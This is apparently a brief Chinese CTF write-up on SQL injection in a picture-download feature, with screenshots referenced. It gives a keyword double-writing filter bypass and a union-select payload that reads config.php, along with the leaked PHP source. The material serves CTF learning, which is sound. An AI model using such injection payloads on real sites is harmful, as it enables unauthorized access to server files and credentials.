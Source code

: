 ![Untitled](../../CTF赛题/BUU月赛/attachment/SQL注入%207c83b7a8861f4e89aff2bded5a55302b/Untitled%2014.png)

三个功能点，在download这里的查看存在参数为感觉有sql

查询逻辑可能是select picture from xxx where id = 

毫无影响，可能是有过滤

![Untitled](../../CTF赛题/BUU月赛/attachment/SQL注入%207c83b7a8861f4e89aff2bded5a55302b/Untitled%2015.png)

-1 union select 这显示无这个picture

在download这里进行双写绕过

1 ununionion selselectect 0x636f6e6669672e706870

```php
<?php 
#define("DIR_PERMITION",time());
include("config.php");
$_POST = d_addslashes($_POST);
$_GET = d_addslashes($_GET);

?>

<html>
<head>
<title>大美西安</title>
<meta http-equiv="Content-Type" content="text/html; charset=UTF-8">

</head>
```